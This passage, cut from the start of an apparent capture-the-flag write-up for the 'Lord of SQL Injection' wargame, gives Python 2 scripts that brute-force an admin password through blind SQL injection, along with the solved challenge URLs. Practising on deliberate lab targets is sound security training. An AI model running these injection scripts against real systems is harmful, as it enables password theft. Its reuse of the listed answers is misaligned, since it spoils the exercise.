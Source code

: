 ``` python
            break
    if isFind != True:
        print "Password is "+Pw
        break
```

[http://los.eagle-jump.org/iron_golem_d54668ae66cb6f43e92468775b1d1e38.php?pw=%21%21%21%21](http://los.eagle-jump.org/iron_golem_d54668ae66cb6f43e92468775b1d1e38.php?pw=%21%21%21%21)

___

## 22. Dark Eyes
``` python
import urllib
import httplib
 
Pw=""
for i in range(1,100):
    isFind=False
    for a in range(ord("a"),ord("z")+1)+range(ord("0"),ord("9")+1)+range(33,128):
        Payload="%27+or+id=%27admin%27+and+(select+mid(pw,"+str(i)+",1)="+str(hex(a))+"+union+select+true)%23"
        print Payload
        HTTP=httplib.HTTPConnection("los.eagle-jump.org")
        Param=urllib.urlencode({})
        Headers={"Cookie":"PHPSESSID=hu11kjoc33a1k6puht8em5s505"}
        HTTP.request("GET","/dark_eyes_a7f01583a2ab681dc71e5fd3a40c0bd4.php?pw="+Payload,Param,Headers)
        Result=HTTP.getresponse().read()
        if Result!="":
            Pw+=chr(a)
            print "["+str(i)+"] Find : "+Pw
            isFind=True
            break
    if isFind != True:
        print "Password is "+Pw
        break
```

[http://los.eagle-jump.org/dark_eyes_a7f01583a2ab681dc71e5fd3a40c0bd4.php?pw=5a2f5d3c](http://los.eagle-jump.org/dark_eyes_a7f01583a2ab681dc71e5fd3a40c0bd4.php?pw=5a2f5d3c)

___

## 23. Hell Fire
This challenge is broken.

[http://los.eagle-jump.org/hell_fire_d349b00f6bbf3003de0d283143cbc84b.php](http://los.eagle-jump.org/hell_fire_d349b00f6bbf3003de0d283143cbc84b.php)

___

